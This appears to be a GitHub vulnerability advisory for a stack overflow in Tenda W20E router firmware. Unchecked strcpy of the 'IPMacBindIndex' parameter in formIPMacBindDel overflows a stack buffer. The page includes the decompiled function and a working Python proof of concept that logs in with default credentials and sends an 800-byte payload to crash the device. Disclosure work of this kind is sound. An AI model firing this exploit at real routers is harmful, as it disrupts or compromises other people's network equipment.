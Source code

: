 ## * Tenda W20E stack vulnerability

### * Version

V15.11.0.6 (US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC)

### * Firmware
[https://www.tenda.com.cn/download/detail-2707.html](https://www.tenda.com.cn/download/detail-2707.html)




### * Vulnerability Detail

In function formIPMacBindDel, the content obtained by the program from the parameter "IPMacBindIndex" is passed to __src, 
and then the __src is directly copied into the indexs stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formIPMacBindDel(webs_t wp,char *path,char *query)

{
  char *__src;
  char msg [512];
  char out [64];
  char indexs [128];
  int i;
  int n;
  char *indexSet;
  
  memset(indexs,0,0x80);
  out._0_4_ = 0x31;
  memset(out + 4,0,0x3c);
  msg._0_4_ = 0;
  memset(msg + 4,0,0x1fc);
  __src = websGetVar(wp,"IPMacBindIndex","0");
  strcpy(indexs,__src); //here is overflow
  delete_rules_in_list("security.ipbind.list",indexs,"\t");
  sprintf(msg,"op=%d",5);
  send_msg_to_netctrl(0xb,msg);
  CommitCfm();
  outputToWebs(wp,out);
  return;
}

```

### * POC

```python
import requests

cmd  = b'IPMacBindIndex=' + b'A' * 800 

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/delIpMacBind/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```

